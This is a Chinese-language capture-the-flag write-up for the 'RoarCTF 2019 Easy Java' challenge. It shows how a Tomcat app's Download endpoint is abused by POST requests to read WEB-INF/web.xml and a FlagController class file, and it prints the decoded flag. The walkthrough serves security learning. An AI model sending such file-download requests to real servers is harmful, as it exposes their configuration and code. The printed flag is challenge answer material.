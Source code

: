 # [RoarCTF 2019]Easy Java

[题目地址](https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Java)

搞的好像我学过java似的=(。关键学过java还不行，还要学过java开发。

进入网站，就放个登录框给你，底下那个help啥用没有，就弹出个filenotfound。

- java.io.FileNotFoundException:{help.docx}

至少我们知道了文件名。检查一波源代码。

```html
<center><p><a href="Download?filename=help.docx" target="_blank">help</a></p></center>
```

发现个链接。下载界面在Download，get传参。然而出题人就是骗人的鬼，刚刚get传参拿不到东西，[大佬](https://blog.csdn.net/silencediors/article/details/102579567)说有经验的就会立刻想到改成post试试。我不是大佬，我看到那个报错就懵了，java不会心里没底，也没想过就是请求方法的问题。bp发包。

```
POST /Download HTTP/1.1
Host: daddbbdd-2d34-4a4e-a03c-11fb4022251f.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 18

filename=help.docx
```

下载下来，啥也没有。好邪恶一出题人，文档里一点提示没给。这里可能有文件包含，但是包含啥呢？去看了看robots.txt，报错没有这个文件，但通过报错信息知道服务器是tomcat。tomcat有个[配置文件](https://blog.csdn.net/wangxiaotongfan/article/details/51318951)web.xml，在路径WEB-INF底下。看看有没有。

```
POST /Download HTTP/1.1
Host: daddbbdd-2d34-4a4e-a03c-11fb4022251f.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

filename=WEB-INF/web.xml
```

确实有。能发现一个com.wm.ctf.FlagController。跟flag有关，要看看是啥，但是路径不知道。这就不得不了解一下java的WEB应用安全目录[WEB-INF](https://www.cnblogs.com/shamo89/p/9948707.html)了,正是刚刚查到的，一环套一环。查阅知道/WEB-INF/classes/包含了站点所有用的 class 文件。

```
POST /Download HTTP/1.1
Host: daddbbdd-2d34-4a4e-a03c-11fb4022251f.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

filename=WEB-INF/classes/com/wm/ctf/FlagController.class
```

java里面一般几个点分割后面xxxController的很有可能是class。路径统一在classes下，之后按照class名往下写就是了。另外要加.class后缀。得到的内容中有串base64。

- ZmxhZ3s0NWI5ZTgxMS1iOTBkLTRkY2UtYTRmMS1jZTVjNDRlODBjNTZ9Cg==

解密后就是flag了。

## Flag
> flag{45b9e811-b90d-4dce-a4f1-ce5c44e80c56}